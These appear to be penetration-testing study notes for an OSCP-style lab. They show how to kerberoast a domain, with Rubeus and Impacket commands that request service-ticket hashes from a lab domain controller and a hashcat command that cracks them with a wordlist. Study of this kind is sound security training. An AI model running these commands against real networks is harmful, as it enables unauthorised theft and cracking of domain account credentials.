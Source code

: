 ```yaml
---
IP_KALI: 192.168.45.155
DCIP: 10.10.143.152
DOMAIN: oscp.exam
USER: Eric.Wallows
---
```

The end result will be a TGS-REP hash

We use rubeus on PS to perform kerberoasting from Windows:
- Since we'll execute Rubeus as an authenticated domain user, the tool will identify all SPNs linked with a domain user.
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```


We use Impacket to kerberoast from Kali:
- sudo impacket-GetUserSPNs -request -dc-ip <span id="DCIP"/>10.10.143.152<span type="end"/> <span id="DOMAIN"/>oscp.exam<span type="end"/>/<span id="USER"/>Eric.Wallows<span type="end"/>


Crack hash:
```
hashcat --help | grep -i "Kerberos"
```
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
